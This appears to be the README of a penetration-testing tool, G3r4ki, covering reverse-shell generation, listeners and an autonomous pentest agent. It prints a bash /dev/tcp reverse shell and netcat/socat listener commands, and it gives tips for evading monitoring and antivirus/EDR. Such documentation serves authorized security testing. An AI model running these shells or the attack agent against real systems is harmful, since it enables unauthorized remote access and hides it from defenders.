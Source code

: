 # G3r4ki Penetration Testing Module

This guide covers the usage of G3r4ki's penetration testing capabilities, designed to assist cybersecurity professionals with common penetration testing tasks.

## Capabilities Overview

The G3r4ki Penetration Testing Module provides:

1. **Reverse Shell Generator**: Create reverse shells in multiple languages and variants
2. **System Enumeration**: Gather detailed system information for privilege escalation
3. **Privilege Escalation Techniques**: A comprehensive library of methods to elevate privileges
4. **Autonomous Penetration Testing**: Use the agent system to automate penetration tests

## Reverse Shell Generator

The reverse shell generator creates shells that connect back to your machine, establishing a command and control channel.

### Command Line Usage

```bash
# List available shell types
python demo_pentest.py shells --list

# List variants for a specific shell type
python demo_pentest.py shells --variants bash

# Generate a specific shell
python demo_pentest.py shells --type bash --variant basic --ip 192.168.1.10 --port 4444

# Generate all shell types
python demo_pentest.py shells --all --ip 192.168.1.10 --port 4444
```

### Example Output

```
Generated bash shell (basic):
--------------------------------------------------
bash -i >& /dev/tcp/192.168.1.10/4444 0>&1
--------------------------------------------------
Target: 192.168.1.10:4444
Start a listener with: nc -lvnp 4444
```

### Setting Up a Listener

Before executing a reverse shell on the target, set up a listener on your attacking machine:

```bash
# Using netcat
nc -lvnp 4444

# Using socat (for better terminal handling)
socat file:`tty`,raw,echo=0 tcp-listen:4444
```

## Agent-Based Penetration Testing

G3r4ki's PentestAgent provides an autonomous approach to penetration testing.

### Creating a Pentest Agent

Within the G3r4ki CLI:

```
g3r4ki> agent create pentest MyPentestAgent
g3r4ki> agent set-target MyPentestAgent 192.168.1.10
```

### Workflow Example

1. Create a penetration testing agent
2. Set the target IP or hostname
3. Run the agent to perform initial enumeration
4. Review discovered vulnerabilities
5. Execute the suggested attack path
6. Generate a comprehensive report

## Real-World Usage Scenarios

### Scenario 1: Quick External Shell Generation

When you need to quickly generate a shell for a target:

```bash
python demo_pentest.py shells --type bash --variant basic --ip 192.168.1.10 --port 4444
```

### Scenario 2: Finding the Right Shell for a Target

If you're unsure which shell will work on the target, list all variants:

```bash
python demo_pentest.py shells --variants python
```

Then generate specific shells to test:

```bash
python demo_pentest.py shells --type python --variant python3 --ip 192.168.1.10 --port 4444
```

### Scenario 3: Automated Penetration Test

For a more comprehensive test, use the agent system:

```
g3r4ki> agent create pentest AutoTarget
g3r4ki> agent set-target AutoTarget 192.168.1.10
g3r4ki> agent run AutoTarget
g3r4ki> agent report AutoTarget
```

## Best Practices

1. **Always use in authorized environments** - Never use these tools against systems without proper authorization
2. **Cleanup after testing** - Remove any artifacts, logs, or temporary files created during testing
3. **Document everything** - Keep detailed records of activities to include in your final report
4. **Use unique ports** - Avoid common ports (80, 443, 22) for reverse shells as they may be monitored
5. **Encrypt communications** - When possible, use encrypted shells to avoid detection

## Troubleshooting

If your shells aren't connecting:

1. Check if your listener is running
2. Verify there are no firewall rules blocking the connection
3. Try different shell types and variants
4. Check for any antivirus/EDR systems that might block the shell
5. Use a common port that's likely to be allowed through firewalls (80, 443, 8080)

## Advanced Usage

For more advanced penetration testing capabilities, combine the shell generator with other G3r4ki modules:

```bash
# Generate a shell and pipe it to a file
python demo_pentest.py shells --type bash --variant basic > shell.sh

# Use the LLM to analyze potential vulnerabilities
g3r4ki> llm query "Analyze potential vulnerabilities in this system: $(cat enum_results.txt)"
```